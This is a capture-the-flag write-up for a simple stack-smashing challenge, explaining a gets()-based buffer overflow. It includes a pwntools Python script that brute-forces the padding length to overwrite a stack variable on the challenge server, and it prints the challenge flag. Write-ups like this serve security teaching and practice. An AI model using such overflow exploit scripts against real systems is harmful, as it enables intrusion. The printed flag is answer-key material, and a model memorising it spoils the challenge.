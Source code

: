 #### Challenge:

Simple stack smashing challenge

Connect on nc smash184384.wpictf.xyz 15724.

Press enter once after connecting

[challenge.c](./challenge.c ":ignore")

---

#### Solution:

We are given `C` source code which quite obviously wants us to rewrite value of variable we don't have access to (`specialInt`), but which is luckily positioned on the stack below the buffer we are able to overflow thanks to the usage of the `gets` function.

```python
#!/usr/bin/env python

from pwn import *
import struct

for i in range(10,30):
    try:    
        r = remote('smash184384.wpictf.xyz', 15724)

        payload = b'A'*i +  struct.pack('<I',923992130)

        print(payload)
        r.sendline(payload)

        print(r.recvline().decode('utf-8').strip())
        r.close()
    except:
        pass
```

---

<details><summary>FLAG:</summary>

```
WPI{ju5t!n|$bR#4tht4k!n6}
```

</details>
<br/>
